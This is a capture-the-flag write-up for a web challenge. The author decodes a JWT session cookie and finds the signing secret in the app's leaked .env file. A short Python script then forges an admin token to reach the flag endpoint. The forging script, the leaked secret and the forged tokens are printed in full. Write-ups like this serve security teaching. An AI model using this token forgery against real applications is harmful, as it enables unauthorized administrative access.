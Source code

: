 # Jasons Baking Services

## Description
```
Hey intern! We were able to swipe Jasons application from Github, see if you can find anything useful in the code that will allow you to exploit the real application.

(Be ready to be flash-banged, the web-app is all white!)
```

## Writeup

We are provided the website link and also the files of the website. <br/>
![image](https://github.com/Aryt3/writeups/assets/110562298/5a0144fb-d74f-4ba0-8c27-46632921b8ee)

After logging in we can see that we have a cookie. <br/>
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiMTIzIiwiYXV0aG9yaXplZCI6dHJ1ZSwiYWRtaW4iOmZhbHNlLCJpYXQiOjE2OTg0ODA2OTksImV4cCI6MTY5ODQ4MDk5OX0.lHZvz6EJdExLvl99JRD4SCFP55Afh8NFKZ_m7lv4JCI
```

Deocding the cookie with base64 we receive. <br/>
```
{"alg":"HS256","typ":"JWT"}{"name":"123","authorized":true,"admin":false,"iat":1698480699,"exp":1698480999}%B]ID>SJg	
```

Now I already knew that it looked like a json web token but now I know for sure. <br/>
Let's take a look at the source code. <br/>
```js
route.get('/flag', authenticateJson, (req, res) => {
    if (!req.user) {
        res.render('index')
    } else {
        if (req.user.admin == true) {
            res.send("// Print Flag Here")
        } else {
            res.render('dashboard', {name: req.user.name})
        }
    }
})

function authenticateJson(req, res, next) {
    console.log('Cookie: ', req.cookies['token'])
    const token = req.cookies['token'];
    if (token == null) return res.sendStatus(401)

    jwt.verify(token, process.env.SECRET, (err, user) => {
        if (err) {
            res.sendStatus(403)
        }
        req.user = user
        next()
    })
}
```

Also we found `https://spooky-jason-bakeshop-web.chals.io/flag` but can't access it because we receive a 401. <br/>
We do of course see some interesting functions but what interests me the most is the `.env` file. <br/>
```env
SECRET=y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa
SECRET_REFRESH=y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa
```

Because I have already worked with JWT I know that once you get the secret key you are basically able to forge your own tokens. <br/>
Coding a small python script to get a nice token with elevated permissions. <br/>
```py
import jwt

secret_key='y5ABWPpr76vyLjWxZQZvxpFZuprCwAZa6HhWaaDgS7WBEbzWWceuAe45htGLa'

payload = {
        'name': 'admin',
        'authorized': True,
        'admin': True
}

token = jwt.encode(payload, secret_key, algorithm='HS256')

print(token)
```

Once executed we receive the token below. <br/>
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJhdXRob3JpemVkIjp0cnVlLCJhZG1pbiI6dHJ1ZX0.7LsUVGaCPyS4GL6qIpu4qn3CAEQLXLnPwNWe1SvxUGA
```

Now we can just paste it into our cookie and reload the page `https://spooky-jason-bakeshop-web.chals.io/flag`. <br/>
Seems liek we got through and found the flag `NICC{jWoT_tOkeNs_nEed_saf3_secr3ts}`. 






